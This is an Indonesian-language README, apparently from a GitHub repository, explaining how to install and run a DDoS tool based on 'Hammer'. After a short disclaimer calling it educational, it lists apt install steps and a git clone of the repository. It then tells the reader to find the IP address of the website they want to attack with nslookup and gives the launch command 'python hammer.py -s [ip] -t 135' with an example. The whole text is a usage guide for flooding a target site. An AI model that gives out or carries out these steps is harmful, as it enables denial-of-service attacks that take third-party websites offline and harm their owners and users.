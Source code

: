<b>PERHATIAN... SAYA TIDAK BERTANGGUNG JAWAB ATAS SEGALA DAMPAK YANG AKAN TERJADI</b><br>
<b>TOOLS INI TERBUKA HANYA SEBAGAI EDUKASI, JANGAN DISALAHKGUNAKAN</b><br><br>

$ apt update && apt upgrade (update dan upgrade tools yg sudah ada)<br>
$ apt install python (install python bagi yg belum punya) <br>
$ apt install git (install git biar bisa input command git clone)<br> 
$ git clone https://github.com/rifandani/ddos-hammer.git <br><br>

DDOS tools ini berbasis "Hammer" tool yang membutuhkan <b>Name Server</b> dari website yang ingin anda serang<br>
Biar bisa mendapatkan "Name Server" nya... input command<br>
$ apt install dnsutils (install biar bisa input command nslookup)<br>
$ nslookup example.com <br>
Catat IP Address dari Website tersebut...<br><br>

Kalau semua sudah siap, masuk ke direktori <br>
$ cd ddos-hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
contoh:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Silahkan di STAR dan FORK jika bermanfaat